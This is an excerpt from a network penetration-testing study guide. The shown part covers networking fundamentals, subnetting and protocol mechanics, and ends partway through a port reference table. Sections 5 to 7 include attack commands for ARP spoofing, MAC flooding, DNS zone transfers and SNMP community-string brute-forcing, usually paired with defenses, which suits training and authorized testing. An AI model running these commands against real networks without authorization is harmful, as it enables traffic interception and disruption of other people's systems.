# Network Penetration Testing & Security Assessment — Complete Guide

> **A Comprehensive, Practical, Hands-On Field Manual & Study Guide to Network Security Assessment**  
> *Designed for Security Engineers, Penetration Testers, Red Teamers, and Infrastructure Defenders*

---

## Scope & Ethical Disclaimer

```text
+-------------------------------------------------------------------------------+
|                               IMPORTANT NOTICE                                |
| All testing techniques, commands, and methodologies described in this guide   |
| must ONLY be performed on systems you own or have explicit, authorized,      |
| written permission to test (such as contracted commercial penetration tests,  |
| explicit bug bounty program scopes, or dedicated educational lab environments).|
| Unauthorized scanning, testing, or exploiting of computer networks is illegal |
| under the Computer Fraud and Abuse Act (CFAA), UK Computer Misuse Act, and    |
| international cybersecurity legislation.                                      |
+-------------------------------------------------------------------------------+
```

---

## Table of Contents

- [0. How to Use These Notes & Progression System](#0-how-to-use-these-notes--progression-system)
- [1. Networking Fundamentals for Penetration Testers](#1-networking-fundamentals-for-penetration-testers)
- [2. The OSI & TCP/IP Reference Models](#2-the-osi--tcpip-reference-models)
- [3. TCP/IP Protocols & Packet Mechanics](#3-tcpip-protocols--packet-mechanics)
- [4. IP Addressing, Subnetting & CIDR Notation](#4-ip-addressing-subnetting--cidr-notation)
- [5. Routing, Switching & Layer 2/3 Security](#5-routing-switching--layer-23-security)
- [6. Deep Dive: Core Network & Application Protocols](#6-deep-dive-core-network--application-protocols)
- [7. High-Value Pentester Port & Service Reference](#7-high-value-pentester-port--service-reference)
- [8. Professional Network Penetration Testing Methodology](#8-professional-network-penetration-testing-methodology)
- [9. Rules of Engagement & Pre-Engagement Authorization](#9-rules-of-engagement--pre-engagement-authorization)
- [10. Reconnaissance: Passive & Active OSINT](#10-reconnaissance-passive--active-osint)
- [11. Host Discovery & Network Live Sweeping](#11-host-discovery--network-live-sweeping)
- [12. Port Scanning & Advanced Nmap Techniques](#12-port-scanning--advanced-nmap-techniques)
- [13. Service Enumeration & Banner Grabbing](#13-service-enumeration--banner-grabbing)
- [14. Vulnerability Assessment & Scanner Verification](#14-vulnerability-assessment--scanner-verification)
- [15. Common Network Infrastructure Vulnerabilities](#15-common-network-infrastructure-vulnerabilities)
- [16. SMB Enumeration, Exploitation & Relay Attacks](#16-smb-enumeration-exploitation--relay-attacks)
- [17. Windows RPC, MSRPC & NetBIOS Enumeration](#17-windows-rpc-msrpc--netbios-enumeration)
- [18. LDAP & Directory Services Enumeration](#18-ldap--directory-services-enumeration)
- [19. Kerberos Authentication & Kerberos Attacks](#19-kerberos-authentication--kerberos-attacks)
- [20. Active Directory Architecture & Attack Vectors](#20-active-directory-architecture--attack-vectors)
- [21. Windows Credential Storage & Credential Dumping](#21-windows-credential-storage--credential-dumping)
- [22. Linux Host Enumeration & Privilege Escalation](#22-linux-host-enumeration--privilege-escalation)
- [23. Windows Local Privilege Escalation](#23-windows-local-privilege-escalation)
- [24. Network Segmentation & Firewall Rule Validation](#24-network-segmentation--firewall-rule-validation)
- [25. VPN & Remote Access Infrastructure Testing](#25-vpn--remote-access-infrastructure-testing)
- [26. SNMP & DNS Security Testing](#26-snmp--dns-security-testing)
- [27. Wireless Network Penetration Testing](#27-wireless-network-penetration-testing)
- [28. Network Pivoting, Tunneling & Port Forwarding](#28-network-pivoting-tunneling--port-forwarding)
- [29. Lateral Movement Techniques & Remote Execution](#29-lateral-movement-techniques--remote-execution)
- [30. Post-Exploitation & Situational Awareness](#30-post-exploitation--situational-awareness)
- [31. Password Attacks, Password Spraying & Cracking](#31-password-attacks-password-spraying--cracking)
- [32. Exploitation Mechanics & Metasploit Framework](#32-exploitation-mechanics--metasploit-framework)
- [33. Wireshark, tcpdump & Packet Analysis](#33-wireshark-tcpdump--packet-analysis)
- [34. How a Professional Pentester Thinks: Port-by-Port Mental Models](#34-how-a-professional-pentester-thinks-port-by-port-mental-models)
- [35. Vulnerability Prioritization & Attack Chain Construction](#35-vulnerability-prioritization--attack-chain-construction)
- [36. External Network Penetration Testing Methodology](#36-external-network-penetration-testing-methodology)
- [37. Internal Network Penetration Testing & Assume-Breach](#37-internal-network-penetration-testing--assume-breach)
- [38. Mapping Network Attacks to MITRE ATT&CK](#38-mapping-network-attacks-to-mitre-attck)
- [39. Real-World Attack Scenarios & Walkthroughs](#39-real-world-attack-scenarios--walkthroughs)
- [40. Professional Penetration Testing Reporting & Deliverables](#40-professional-penetration-testing-reporting--deliverables)
- [41. Remediation Engineering & Defensive Hardening](#41-remediation-engineering--defensive-hardening)
- [42. Common Pentester Mistakes & Anti-Patterns](#42-common-pentester-mistakes--anti-patterns)
- [43. Technical Interview Preparation (Beginner to Advanced)](#43-technical-interview-preparation-beginner-to-advanced)
- [44. The Ultimate Network Pentesting Cheat Sheets](#44-the-ultimate-network-pentesting-cheat-sheets)
- [45. Progressive Hands-On Lab Roadmap & Home Lab Build Guide](#45-progressive-hands-on-lab-roadmap--home-lab-build-guide)
- [46. Complete Network Penetration Testing Capstone Engagement](#46-complete-network-penetration-testing-capstone-engagement)
- [47. Network Penetration Testing Master Checklist](#47-network-penetration-testing-master-checklist)

---

## 0. How to Use These Notes & Progression System

This field manual is designed to take a security practitioner from zero networking knowledge to executing complex internal, external, Active Directory, and segmentation penetration tests.

### Teaching Framework: The 5-Pillar Concept Structure

For every core networking and penetration testing concept, we use a structured pedagogy:
1. **Simple Explanation:** Plain-English summary of what the technology is.
2. **Real-World Analogy:** Intuitive mental model to build immediate understanding.
3. **Technical Mechanics:** Packet headers, flags, state machines, protocol handshakes, and RFC definitions.
4. **Penetration Testing Relevance & Reasoning:** Why attackers target this component, common vulnerabilities, and how to enumerate it.
5. **Practical Commands & Defensive Context:** Exact syntax, flag explanations, expected output analysis, detection signatures (SIEM/EDR), and hardening fixes.



---

## 1. Networking Fundamentals for Penetration Testers

### 1.1 Core Network Definitions

- **Computer Network:** A collection of two or more computing devices interconnected via physical or wireless communication channels to share data, services, and hardware resources.
- **LAN (Local Area Network):** High-speed network spanning a geographically constrained area (e.g., an office floor, building, or home). Typically operates under a single administrative domain using Ethernet (802.3) or Wi-Fi (802.11).
- **WAN (Wide Area Network):** Telecommunications network connecting geographically dispersed LANs across cities, countries, or continents (e.g., the Internet, MPLS corporate WAN).
- **MAN (Metropolitan Area Network):** Network spanning a city or university campus.
- **PAN (Personal Area Network):** Short-range network centered around a single person (e.g., Bluetooth devices within 10 meters).
- **Internet:** The global, publicly accessible network of interconnected networks communicating via the Internet Protocol Suite (TCP/IP) and BGP routing.
- **Intranet:** A private, internal network restricted to authorized employees or members of an organization, isolated from the public Internet.
- **Extranet:** A private network controlled by an enterprise that provides secure, authenticated access to trusted external partners, vendors, or customers.
- **Client-Server Architecture:** A distributed model where centralized service providers (**servers**) listen for and respond to resource requests initiated by consumers (**clients**).
- **Peer-to-Peer (P2P):** A decentralized architecture where every participating node (**peer**) possesses equivalent privileges and acts as both client and server (e.g., BitTorrent, blockchain nodes).

### 1.2 Network Topologies

```text
[Star Topology]          [Bus Topology]            [Mesh Topology]
     (Host A)              (A)   (B)   (C)            (A)-------(B)
        |                   |     |     |              | \     / |
 (Host B)-(Hub/Switch)-(Host C) ====[Trunk Cable]====  |  \   /  |
        |                   |     |     |              |   \ /   |
     (Host D)              (D)   (E)   (F)            (C)-------(D)
```

- **Star Topology (Dominant in Enterprise LANs):** All endpoints connect to a central hub or switch. If one cable fails, only that host is disconnected. If the central switch fails, the entire network segment drops.
- **Mesh Topology (Critical Infrastructure & Core Routing):** Every node connects to multiple (or all) other nodes, providing redundant failover paths.

### 1.3 Key Network Hardware & Software Components

| Device / Component | Layer | Core Function | Pentester Significance |
| :--- | :--- | :--- | :--- |
| **Switch** | Layer 2 | Forwards Ethernet frames based on destination **MAC addresses** stored in its Content Addressable Memory (CAM) table. | Target for ARP spoofing, MAC flooding, VLAN hopping, and DHCP starvation. |
| **Router** | Layer 3 | Forwards IP packets between different subnets based on **Routing Tables** and routing protocols. | Intercepts inter-VLAN traffic; misconfigured ACLs allow unauthorized subnet traversal. |
| **Firewall** | Layer 3/4/7 | Inspects inbound/outbound traffic and enforces security rules based on IP, port, connection state, or application payload. | Defines perimeter security; tested for bypasses, open outbound ports, and rule flaws. |
| **Load Balancer** | Layer 4/7 | Distributes incoming network/application traffic across a server pool (e.g., Round Robin, Least Connections). | SSL/TLS termination point; header injection (`X-Forwarded-For`) can bypass IP whitelisting. |
| **IDS (Intrusion Detection System)** | Layer 2-7 | Passively monitors network traffic, analyzes packets against signatures or anomalies, and generates alerts. | Detects noisy port scans (`nmap -T4`), exploit payloads, and password sprays. |
| **IPS (Intrusion Prevention System)** | Layer 2-7 | Placed inline with network traffic; detects malicious patterns and **actively drops packets** or blocks source IPs. | Causes automated scan drops, TCP RST injections, or temporary IP bans during testing. |
| **VPN Gateway** | Layer 3/4 | Terminates encrypted tunnels (IPsec, SSL/TLS, WireGuard) to allow secure remote access into internal networks. | Prime external target for credential stuffing, MFA bypass, and pre-auth RCE exploits. |
| **NAC (Network Access Control)** | Layer 2 | Enforces 802.1X policy compliance before granting switch port access (e.g., verifying corporate certificates/MACs). | Blocks rogue pentester laptops from accessing physical switch ports during on-site tests. |

---

## 2. The OSI & TCP/IP Reference Models

### 2.1 The 7-Layer OSI Model vs 4-Layer TCP/IP Model



### 2.2 OSI Model Layer-by-Layer Pentester Breakdown

| Layer | Name | PDU (Protocol Data Unit) | Key Protocols | Hardware | Pentesting Relevance & Common Attacks |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **7** | **Application** | Data | HTTP/S, DNS, SMB, LDAP, SSH, RDP, Kerberos, SNMP, SMTP | Host OS, Proxy, WAF | Authentication bypass, injection attacks (SQLi, Command Injection), default credentials, software exploits (Log4j, EternalBlue). |
| **6** | **Presentation** | Data | TLS/SSL, XDR, ASN.1, MIME, Compression | Host OS | Weak SSL/TLS ciphers (RC4, 3DES), expired certificates, serialization/deserialization vulnerabilities. |
| **5** | **Session** | Data | NetBIOS-SSN, RPC, SOCKS, Named Pipes | Host OS | Session hijacking, RPC endpoint enumeration (`rpcdump`), token manipulation, unauthorized session reuse. |
| **4** | **Transport** | Segment (TCP) / Datagram (UDP) | TCP, UDP, SCTP | Layer 4 Firewall, Load Balancer | SYN flood DoS, TCP port scanning, UDP service probing, session reset attacks, firewalking. |
| **3** | **Network** | Packet | IPv4, IPv6, ICMP, IPsec, BGP, OSPF | Router, L3 Switch, Firewall | IP spoofing, routing protocol poisoning, ICMP tunneling, firewall ACL bypasses, fragmentation evasion. |
| **2** | **Data Link** | Frame | Ethernet, IEEE 802.11, ARP, CDP, LLDP, STP | Switch, Bridge, WAP, NIC | ARP cache poisoning (MITM), MAC flooding, VLAN hopping, STP manipulation, rogue DHCP injection. |
| **1** | **Physical** | Bits | 1000BASE-T, Fiber, RF (2.4/5GHz) | Cables, Hubs, Repeaters | Physical wiretapping, rogue hardware implants (LAN Turtle, Rubber Ducky), Wi-Fi RF jamming. |

### 2.3 Data Encapsulation & Decapsulation

When a client sends an HTTP request, data traverses downward through the stack (Encapsulation), wrapping each layer's payload with a new header. Upon receipt, the server strips headers upward (Decapsulation):

```text
[Application Data]
  ↓ (Add TCP Header)
[ TCP Header | Application Data ]                      --> TCP Segment
  ↓ (Add IP Header)
[ IP Header | TCP Header | Application Data ]           --> IP Packet
  ↓ (Add Ethernet Header & Trailer)
[ Ethernet Header | IP Header | TCP Header | Application Data | FCS Frame Trailer ] --> Ethernet Frame
  ↓ (Convert to Electrical / Optical / Radio Signals)
01011001 01100101 01110011 ...                          --> Bits on Physical Wire
```

---

## 3. TCP/IP Protocols & Packet Mechanics

### 3.1 IP, TCP, UDP, and ICMP: Core Differences



### 3.2 TCP Three-Way Handshake & Connection States

```text
       Client (Initiator)                               Server (Listener)
         [CLOSED]                                           [LISTEN]
            |                                                  |
            | ---------- 1. TCP SYN (Seq=100) ---------------> |  (Client sends SYN to port)
      [SYN-SENT]                                               |
            |                                                  |
            | <--------- 2. TCP SYN-ACK (Seq=300, Ack=101) --- |  (Server acknowledges & replies)
            |                                            [SYN-RECEIVED]
            |                                                  |
      [ESTABLISHED]                                            |
            | ---------- 3. TCP ACK (Seq=101, Ack=301) ------> |  (Connection established)
            |                                            [ESTABLISHED]
            |                                                  |
            | <========== Bi-directional Data Exchange ======> |
```

#### TCP Flags Explained:
- **SYN (Synchronize):** Initiates a connection, synchronizing initial sequence numbers (ISN).
- **ACK (Acknowledgment):** Confirms receipt of transmitted data or connection step.
- **FIN (Finish):** Gracefully terminates a connection; sender has no more data to transmit.
- **RST (Reset):** Abruptly aborts a connection (e.g., sent by an OS when a packet arrives at a closed port).
- **PSH (Push):** Instructs the receiving buffer to immediately forward data to the application layer.
- **URG (Urgent):** Indicates segment data contains high-priority content processed out of order.

#### TCP Connection Termination (4-Way Handshake):
1. `Client -> FIN -> Server` (Client enters `FIN-WAIT-1`)
2. `Server -> ACK -> Client` (Server enters `CLOSE-WAIT`, Client enters `FIN-WAIT-2`)
3. `Server -> FIN -> Client` (Server enters `LAST-ACK`)
4. `Client -> ACK -> Server` (Client enters `TIME-WAIT`, Server enters `CLOSED`)

---

## 4. IP Addressing, Subnetting & CIDR Notation

### 4.1 IPv4 Address Anatomy & Classes

An IPv4 address consists of **32 bits** grouped into **4 octets** (8 bits each), separated by dots and expressed in decimal format (e.g., `192.168.1.10`):

```text
Dotted Decimal:        192       .       168       .        1        .       10
Binary Octets:      11000000     .    10101000     .    00000001     .    00001010
Bit Positions:     [31 ........ 24]  [23 ........ 16]  [15 ......... 8]  [7 ......... 0]
```

### 4.2 Private IP Ranges (RFC 1918) & Special Blocks

| RFC / Block | IP Address Range | Subnet Mask | CIDR | Purpose |
| :--- | :--- | :--- | :--- | :--- |
| **Class A Private** | `10.0.0.0` - `10.255.255.255` | `255.0.0.0` | `/8` | Large Enterprise Internal Networks |
| **Class B Private** | `172.16.0.0` - `172.31.255.255` | `255.240.0.0` | `/12` | Medium Enterprise Internal Networks |
| **Class C Private** | `192.168.0.0` - `192.168.255.255` | `255.255.0.0` | `/16` | Small Office / Home / DMZ Networks |
| **Loopback** | `127.0.0.0` - `127.255.255.255` | `255.0.0.0` | `/8` | Localhost inter-process communication |
| **APIPA (Link-Local)**| `169.254.0.0` - `169.254.255.255`| `255.255.0.0` | `/16` | Auto-assigned when DHCP fails |
| **Multicast** | `224.0.0.0` - `239.255.255.255` | N/A | `/4` | OSPF, RIPv2, mDNS, multicast streaming |

> **Pentester Tip on APIPA (`169.254.x.x`):**  
> If an interface on a target machine or your own assessment VM displays a `169.254.x.x` IP address, it indicates that the client broadcasted DHCP discover packets but received **zero responses**. The DHCP server is either offline, unreachable due to switch port security/VLAN misconfiguration, or exhausted of available IP leases.

### 4.3 CIDR Subnetting Reference Table

Every IP subnet has:
1. **Network Address:** First address in the range (host bits all `0`). Identifies the subnet itself. Unusable for hosts.
2. **Broadcast Address:** Last address in the range (host bits all `1`). Used to send data to all hosts on the subnet. Unusable for hosts.
3. **Usable Host Range:** Addresses between Network Address and Broadcast Address. Formula: $2^{(32 - \text{CIDR})} - 2$.

| CIDR Prefix | Subnet Mask | Total IPs ($2^h$) | Usable Hosts ($2^h - 2$) | Typical Use Case |
| :--- | :--- | :--- | :--- | :--- |
| **/30** | `255.255.255.252` | 4 | **2** | Point-to-point router links |
| **/29** | `255.255.255.248` | 8 | **6** | Small server DMZ / external firewalls |
| **/28** | `255.255.255.240` | 16 | **14** | Isolated management subnets |
| **/27** | `255.255.255.224` | 32 | **30** | Departmental VLANs |
| **/26** | `255.255.255.192` | 64 | **62** | Regional office branches |
| **/25** | `255.255.255.128` | 128 | **126** | Medium departmental networks |
| **/24** | `255.255.255.0` | 256 | **254** | Standard LAN subnet / pentest scope |
| **/23** | `255.255.254.0` | 512 | **510** | Large corporate office floors |
| **/16** | `255.255.0.0` | 65,536 | **65,534** | Enterprise site campus network |
| **/8** | `255.0.0.0` | 16,777,216 | **16,777,214** | Entire corporate enterprise WAN |

#### Subnetting Calculation Example:
Given target scope: `10.20.30.140/27`
1. Host bits $h = 32 - 27 = 5$. Total IPs = $2^5 = 32$.
2. Block size = 32. Subnet boundaries: `0, 32, 64, 96, 128, 160, ...`
3. `140` falls in the block starting at `128`.
   - **Network ID:** `10.20.30.128`
   - **First Usable Host:** `10.20.30.129`
   - **Last Usable Host:** `10.20.30.158`
   - **Broadcast Address:** `10.20.30.159`
   - **Total Usable Hosts:** 30

---

## 5. Routing, Switching & Layer 2/3 Security

### 5.1 Layer 2 Switching & VLAN Segmentation

A network switch connects devices on the same local network, using the **MAC Address Table** (CAM table) to forward frames directly between ports.



- **Access Port:** Carries traffic for only one single VLAN (untagged frames). Connects end-user workstations, printers, and standard hosts.
- **Trunk Port (IEEE 802.1Q):** Carries traffic for multiple VLANs across switches or to routers by injecting a 4-byte 802.1Q tag into the Ethernet frame header containing the **VLAN ID (VID)**.

### 5.2 Layer 2 Attack Vectors & Pentesting Techniques

#### 1. ARP Spoofing / ARP Cache Poisoning (Man-in-the-Middle)
- **Mechanism:** ARP is stateless and lacks authentication. An attacker broadcasts unsolicited ARP replies claiming their MAC address belongs to the Default Gateway IP.
- **Impact:** Diverts all local subnet traffic through the attacker's machine for packet sniffing, SSL stripping, and credential interception.
- **Tool & Command:**
  ```bash
  # Enable IP forwarding on attacker host
  echo 1 > /proc/sys/net/ipv4/ip_forward

  # Poison target host (192.168.1.50) and gateway (192.168.1.1)
  arpspoof -i eth0 -t 192.168.1.50 -r 192.168.1.1
  ```
- **Defense:** Dynamic ARP Inspection (DAI) coupled with DHCP Snooping on switches.

#### 2. MAC Flooding (CAM Table Overflow)
- **Mechanism:** Attacker transmits thousands of random spoofed source MAC addresses into the switch port.
- **Impact:** The switch CAM table runs out of memory and degrades into a "Fail-Open" hub mode, broadcasting all incoming unicast frames across every port on the switch.
- **Tool:** `macof -i eth0 -n 10000`
- **Defense:** Switch **Port Security** (limiting maximum learned MAC addresses per port to 1-2).

#### 3. VLAN Hopping (Double Tagging & Switch Spoofing)
- **Switch Spoofing:** Attacker connects to an access port configured with Dynamic Trunking Protocol (DTP) in auto/desirable mode. Attacker sends DTP frames negotiation to convert their port into a trunk, gaining access to all VLANs.
- **Double Tagging:** Attacker on Native VLAN 1 sends a frame with two 802.1Q tags: Outer tag = Native VLAN 1, Inner tag = Target VLAN 20. The first switch strips the outer tag and forwards the inner tagged frame across the trunk to the second switch, which delivers it to VLAN 20 (one-way traffic).
- **Defense:** Disable DTP (`switchport nonegotiate`), set explicit access modes, and change the Native VLAN to an unused ID.

---

## 6. Deep Dive: Core Network & Application Protocols

### 6.1 Address Resolution Protocol (ARP)



- **Protocol Details:** Layer 2/3 glue protocol; maps IP addresses to physical MAC addresses. No authentication.
- **Pentester Relevance:** Essential for Layer 2 host discovery (`netdiscover`, `nmap -PR`) and Layer 2 MITM attacks.

### 6.2 Domain Name System (DNS) — Port 53 (TCP/UDP)

DNS translates human-readable hostnames (`dc01.corp.local`) into IP addresses (`10.10.10.5`).
- **UDP Port 53:** Used for standard single queries and responses (<512 bytes).
- **TCP Port 53:** Used for Zone Transfers (AXFR) and responses exceeding 512 bytes (EDNS0 / DNSSEC).

#### DNS Record Types:
- **A:** Maps hostname to IPv4 address.
- **AAAA:** Maps hostname to IPv6 address.
- **PTR:** Pointer record; reverse DNS mapping (IP to hostname).
- **MX:** Mail Exchange server for the domain.
- **NS:** Authoritative Name Server for the domain.
- **TXT:** Text record (SPF records, domain verification, DKIM keys).
- **SRV:** Service record; critical in Active Directory to locate Domain Controllers (`_ldap._tcp.dc._msdcs.domain.local`), Kerberos KDC (`_kerberos._tcp.domain.local`).

#### Pentesting DNS:
```bash
# 1. Test for Unrestricted DNS Zone Transfer (AXFR)
dig axfr @10.10.10.5 corp.local

# 2. Reverse DNS Lookup Sweep across Subnet
dnsrecon -r 10.10.10.0/24 -n 10.10.10.5

# 3. Active Directory SRV Record Discovery
dig _ldap._tcp.dc._msdcs.corp.local @10.10.10.5 SRV
```

> **Why Zone Transfer (AXFR) is a Critical Finding:**  
> A DNS Zone Transfer copies the entire DNS database from the master server to a secondary server. If misconfigured to allow public or internal queries without authorization, an attacker downloads a complete map of the organization's infrastructure, hostnames, internal IPs, DMZ gateways, and development servers.

### 6.3 Dynamic Host Configuration Protocol (DHCP) — Ports 67/68 (UDP)

DHCP automatically assigns IP addresses, subnet masks, default gateways, and DNS servers to client devices via the 4-step **DORA** process:

```text
Client (0.0.0.0:68)                                   DHCP Server (Port 67)
       |                                                         |
       | ------ 1. DHCP DISCOVER (Broadcast: 255.255.255.255) -> |
       |                                                         |
       | <----- 2. DHCP OFFER (Unicast/Broadcast: 10.10.10.50) - |
       |                                                         |
       | ------ 3. DHCP REQUEST (Broadcast: "I accept .50") ---> |
       |                                                         |
       | <----- 4. DHCP ACK (Unicast/Broadcast: Confirmed) ----- |
```

#### DHCP Attacks:
- **DHCP Starvation:** Attacker generates thousands of DHCP Discover packets with random MAC addresses using `yersinia` or `dhcpstarv`, exhausting the DHCP pool and causing DoS for legitimate clients.
- **Rogue DHCP Server:** Attacker launches a rogue DHCP server on the local subnet. When clients broadcast DHCP Discover, the attacker replies faster than the legitimate server, handing out the attacker's IP as the Default Gateway and DNS server (Full traffic interception).
- **Defense:** **DHCP Snooping** on switches (designating only authentic switch ports connected to official DHCP servers as "Trusted").

### 6.4 Simple Network Management Protocol (SNMP) — Port 161 (UDP)

SNMP is used by network administrators to monitor network device health, CPU usage, routing tables, and interface bandwidth.
- **SNMPv1 & SNMPv2c:** Passwords are sent in **cleartext** as **Community Strings** (commonly default: `public` for read-only, `private` for read-write).
- **SNMPv3:** Adds cryptographic authentication (MD5/SHA) and encryption (DES/AES).
- **MIB (Management Information Base):** Hierarchical tree structure containing manageable variables.
- **OID (Object Identifier):** Dot-separated numerical address pointing to a specific MIB variable (e.g., `1.3.6.1.2.1.1.1.0` = System Description).

#### Pentesting SNMP:
```bash
# 1. Brute-Force SNMP Community Strings
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.10.10.20

# 2. Walk entire MIB tree with discovered community string 'public'
snmpwalk -v2c -c public 10.10.10.20

# 3. Enumerate Windows Users, Running Processes, and Network Interfaces
snmp-check 10.10.10.20
```

---

## 7. High-Value Pentester Port & Service Reference

The following table serves as the primary field reference for identifying attack surfaces during service scanning:

| Port | Protocol | Default Service | Core Vulnerabilities & Attack Vectors to Check |
| :--- | :--- | :--- | :--- |
| **21** | TCP | **FTP** | Anonymous login (`anonymous:anonymous`), cleartext credentials, unencrypted file transfers, backdoors (vsftpd 2.3.4), writable web roots. |
| **22** | TCP | **SSH** | Weak/default credentials, password brute-force, exposed private keys, outdated OpenSSH CVEs (e.g., Terrapin, regreSSHion), banner info leak. |
| **23** | TCP | **Telnet** | Completely unencrypted cleartext credentials and terminal sessions; legacy device management exposure. |
| **25** | TCP | **SMTP** | User enumeration (`VRFY`, `EXPN`, `RCPT TO`), open mail relaying (spam/phishing), cleartext authentication. |
| **53** | TCP/UDP | **DNS** | DNS Zone Transfers (`dig axfr`), DNS cache poisoning, sub-domain brute-forcing, internal Active Directory SRV discovery. |
| **67/68**| UDP | **DHCP** | DHCP starvation, rogue DHCP server rogue gateway injection. |
| **69** | UDP | **TFTP** | Unauthenticated trivial file access; downloading router configuration files (`startup-config`), firmware, or PXE boot images. |
| **80** | TCP | **HTTP** | Web application vulnerabilities (SQLi, XSS, SSRF, RCE, IDOR), admin panels, unencrypted traffic, web server CVEs. |
| **88** | TCP/UDP | **Kerberos** | Active Directory KDC; Kerberoasting, AS-REP Roasting, Pass-the-Ticket, Golden/Silver Ticket injection, password spraying. |
| **110** | TCP | **POP3** | Cleartext email credential interception, password brute-force. |
| **111** | TCP/UDP | **RPCBind** | NFS share enumeration, RPC service mapping (`rpcinfo -p`). |
| **123** | UDP | **NTP** | NTP amplification DDoS, monlist query information disclosure (`ntpdc -c monlist`), clock drift manipulation. |
| **135** | TCP | **MSRPC** | Microsoft RPC Endpoint Mapper; SID resolution, RID cycling, user/group enumeration (`rpcdump.py`, `impacket`). |
